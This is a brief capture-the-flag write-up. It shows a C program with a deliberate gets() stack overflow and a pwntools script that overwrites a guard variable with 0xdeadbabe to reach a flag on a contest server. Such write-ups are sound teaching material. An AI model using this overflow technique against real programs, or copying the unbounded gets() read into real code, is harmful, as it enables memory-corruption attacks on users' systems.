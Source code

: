 The source code is given:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void flag_me(){
	system("cat flag.txt");
}

void lockdown(){
	int lock = 0;
	char buf[64];
	printf("I made this really cool flag but Governor Hogan put it on lockdown\n");
	printf("Can you convince him to give it to you?\n");
	gets(buf);
	if(lock == 0xdeadbabe){
		flag_me();
	}else{
		printf("I am no longer asking. Give me the flag!\n");
	}
}

int main(){
	lockdown();
	return 0;
}
```

No bounded input -> buffer overflow. We can overwrite lock variable with 0xdeadbabe and get the flag.

Exploit:
```python
from pwn import *

payload = (('A'*64).encode())
payload += p32(0xdeadbabe)

p = remote('ctf.umbccd.io', 4500)
#p = process('./onlockdown')
print(p.recvuntil('?\n').decode())
p.sendline(payload)
p.interactive()
```

# FLAG
` DawgCTF{s3ri0u$ly_st@y_h0m3}`
